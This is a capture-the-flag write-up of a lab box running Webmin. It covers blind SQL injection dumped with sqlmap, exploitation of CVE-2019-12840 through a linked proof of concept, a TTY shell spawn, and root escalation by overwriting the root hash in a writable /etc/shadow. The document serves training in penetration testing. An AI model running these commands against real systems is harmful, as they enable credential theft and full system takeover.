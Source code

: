 Desciprtion: `As a manager, I implemented a feedback system in our Webmin application to gather customer feedback and improve our services. However, during its implementation, the system Exposed some sensitive information of our employees. Could you help me identify and address these Common Vulnerabilities?`

### 1. Analysis first web application
- We have a feedback form. Let's check the source code first.

![sourcehtml](sourcehtml.png)

- We can see some comments about SQL query, most likely this web application has SQL injection vuln.
- Do a simple test with `'`.

![firstpart](firstpart.png)
- That's great, looks like we're on the right track.
- Continue to try to dump table data from the database. It is Blind-SQL Injection, we can write a simple script to dump the data but we already have a tool - *sqlmap*. `(Try to make up a code that exploits the vulnerability to show that you are a pro or you will just be a script kiddie:)))`
- Here is sqlmap command:
```
sqlmap -u http://192.168.26.128:5000/api/check_username --method=POST --data '{"username":"admin"}' -p username --headers='Content-Type: application/json' --dump
```
- Output:

![dumpdata.png](dumpdata.png)
- Now we got credentials, let's go to Webmin.
After login, we got a notice that

 ![webmindashboard](webmindashboard.png)
 - Search vuln for that webapp with this version, and we got a CVE `[CVE-2019-12840](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12840)`
 - We already know that it has a CVE, and the next simple work is find a POC to exploit that CVE. (https://github.com/KrE80r/webmin_cve-2019-12840_poc)
 
![exploit.png](exploit.png)
- After get the shell, let's spawn tty shell first
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
- Look around, we got the 2nd part of the flag, but we are myuser, next step is become root.

![secondpart.png](secondpart.png)
- We have a hint that `Can you find my shadow ???` Maybe relate to /etc/shadow, let's check.

![shadowpermission.png](shadowpermission.png)
- We had read and write permission on `/etc/shadow`.
- In `shadow` file do not contain root password hash so we can not crack it, but we have write permission, try to make a password hash with `mkpasswd` then insert it into `shadow` file.
```
mkpasswd -m sha-512 new_password
```

![passwdhash.png](passwdhash.png)
Next step: insert that hash into shadow file between 2 first semicolon. The result wil be like this:
```
root:password_hash:.....
```
- Text editors are really stupid, we can use sed -i or vim -c to replace the text.
```
Example command:
sec -i 's/old_text/new_text/g' /etc/shadow
or
vim -c '%s/old_text/new_text/g' -c 'q' /etc/shadow
```
*Note: Remember to escape some special character in password hash like $*

![replacepasswdhash.png](replacepasswdhash.png)
- Next step is login into root with you password, so ez :))

![getroot.png](getroot.png)
- Final step, read the flag

![thirdpart.png](thirdpart.png)

```
Flag: FIA{$QL_!nj3ct10n_CVE_3xpl01t_@and_pr1v!l3g3_3scal@tion_1s_s0_fUn!}
```
